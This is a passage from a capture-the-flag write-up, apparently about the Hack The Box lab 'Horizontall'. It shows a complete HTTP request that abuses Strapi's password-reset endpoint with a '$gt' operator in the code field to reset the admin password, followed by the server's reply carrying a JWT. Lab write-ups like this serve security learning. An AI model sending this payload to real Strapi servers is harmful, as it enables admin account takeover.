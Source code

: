 The code seems to simply send a specially formatted JSON to the aforementioned 'Forgot your password?' URL. Fortunately for me, I had just saved the login request with Burp Suite, when I was messing around with sqlmap. With a quick change of the `Host:` header and swapping out the login JSON payload for the password reset one, I had my exploit ready to go:

```
POST /admin/auth/reset-password HTTP/1.1
Host: api-prod.horizontall.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://api-prod.horizontall.htb/admin/auth/login
Content-Type: application/json
Origin: http://api-prod.horizontall.htb
Content-Length: 146
DNT: 1
Connection: close

{"code" : {"$gt":0},
            "password" : "SuperStrongPassword1",
            "passwordConfirmation" : "SuperStrongPassword1"
            }
```

I hit send on Burp Suite and cross my fingers...

I'm met with a `200 OK` reply! Along with an accompanying `JWT` token, admin username and email address!

```
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Fri, 04 Feb 2022 17:42:52 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 249
Connection: close
Vary: Origin
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
Content-Security-Policy: img-src 'self' http:; block-all-mixed-content
Strict-Transport-Security: max-age=31536000; includeSubDomains
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1; mode=block
X-Powered-By: Strapi <strapi.io>

{"jwt":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjQzOTk2NTcyLCJleHAiOjE2NDY1ODg1NzJ9.38OEmWdTXIBVRZid4mcY6JeZ2pBV4GQi2_SMHGafhec","user":{"id":3,"username":"admin","email":"admin@horizontall.htb","blocked":null}}
```

Let's try that log-in now :3

### Admin log-in @ api-prod.horizontall.htb/admin

